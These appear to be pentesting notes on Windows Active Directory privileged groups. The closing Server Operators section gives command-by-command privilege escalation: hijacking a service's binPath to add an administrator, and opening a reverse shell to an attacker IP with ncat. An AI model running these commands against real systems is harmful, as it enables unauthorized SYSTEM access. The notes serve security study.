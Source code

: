 ### PrintOperators

Members of such group can:
- having `SeLoadDriverPrivilege` privilege
- log in at the DC and do *shutdown*
- manage, create, share and delete printers connect to the DC

*NB*: if the `whoami /priv` command does not show `SeLoadDriverPrivilege` from a non-elevated context, then UAC must be bypassed.

By exploiting the `SeLoadDriverPrivilege` privilege, it is possible to do *privilege escalation*.

### RemoteDesktopUsers

Members of such group have RDP access to the machines.

### RemoteManagementUsers

Members of such group have WinRM access to the machines.

### ServerOperators

Members of this group can configure certain options at the DC:
- local logon
- backup of files and directories
- `SeBackupPrivilege` e `SeRestorePrivilege`
- edit *system time* 
- edit *time box*
- force remotely shutdown
- restore of files and directories
- system shutdown
- manage local service ([Server Operator Group - Win privesc](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/))

#### Server Operators - Privilege Escalation

**Steps**:
1. upload *netcat* on target machine ([https://github.com/int0x33/nc.exe/](https://github.com/int0x33/nc.exe/))
2. finding a service runned by LocalSystem. Example: *dns* service (`cmd.exe /c "sc qc dns"`)
3. exploitation - two options:
	- adding current user to local Administrators group
		- `cmd.exe /c 'sc config <SERVICE> binPath="cmd /c net localgroup Administrators <USER OWNED> /add"'`
		- `cmd.exe /c "sc qc <SERVICE>"`
		- `cmd.exe /c "sc stop <SERVICE>"`
		- `cmd.exe /c "sc start <SERVICE>"`
		- **hai privilegi di Administrator, ma non avrai direttamente una shell come Administrator o SYSTEM**
	- a shell with SYSTEM privileges (*preferable*)
		- `cmd.exe /c 'sc config <SERVICE> binPath="C:\absolute\path\to\ncat.exe -e cmd.exe <IP ATTACKER> <REVERSE PORT>'`
		- (attaccante) `rlwrap nc -nvlp <REVERSE PORT>`
		- `cmd.exe /c "sc qc <SERVICE>"`
		- `cmd.exe /c "sc stop <SERVICE>"`
		- `cmd.exe /c "sc start <SERVICE>"`
